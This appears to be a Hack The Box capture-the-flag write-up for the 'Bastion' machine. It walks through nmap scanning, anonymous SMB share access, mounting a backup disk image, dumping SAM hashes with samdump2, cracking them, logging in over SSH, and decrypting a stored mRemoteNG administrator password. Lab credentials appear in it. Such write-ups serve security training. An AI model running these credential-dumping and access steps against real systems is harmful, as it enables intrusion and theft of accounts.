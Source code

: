 ```yaml
---
title: Bastion Write up
date: 2024-01-24 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastion 10.10.10.134</span></div>
<br> 


   
    Nmap scan report for 10.10.10.134
    Host is up (0.069s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT    STATE SERVICE      VERSION
    22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    .
    .
    .
    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-06-13T18:00:17
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:00:19+02:00
    |_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s



><span style="color:green">All Ports Scan:</span>

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.134</span></div>
<br>

  
    Nmap scan report for 10.10.10.134
    Host is up (0.11s latency).
    Not shown: 65522 closed tcp ports (conn-refused)
    PORT      STATE SERVICE      VERSION
    22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
    | smb2-time: 
    |   date: 2023-06-13T18:02:18
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:02:16+02:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)


### SMB

We will start by listing shares using smbclient.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 10.10.10.134</span></div>
<br>   

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(1).png)

We can see that there is an interesting share named "backups". Let's access it.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient //10.10.10.134/Backups -U "user"%" "</span></div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(2).png)

Download all files using "mget *".

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(3).png)

Seems like we have to mount it locally.

## Initial Foothold


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ mount -t cifs //10.10.10.134/backups /mnt -o user=user,password=</span></div>
<br>

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(4).png)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note : to install guestmount use the command: sudo apt install libguestfs-tools</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(5).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/</span></div>
<br> 

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(6).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># cd /mnt2/Windows/System32/config</span></div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(7).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># samdump2 ./SYSTEM ./SAM</span></div>
<br>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(8).png)





### Crack the hash

Let's crack the hash using : [https://crackstation.net/](https://crackstation.net/)

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(9).png)


>L4mpje:Bureaulampje

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ssh L4mpje@10.10.10.134</span></div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(10).png)

## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG</span></div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">dir</span></div>
<br>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(11).png)

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">type confCons.xml</span></div>
<br> 

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(12).png)

We found the administrator's hash

To crack it we need to use mremoteng_decrypt : https://github.com/haseebT/mRemoteNG-Decrypt


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==</span></div>
<br>


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(13).png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>ssh administrator@10.10.10.134</span></div>
<br> 

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(14).png)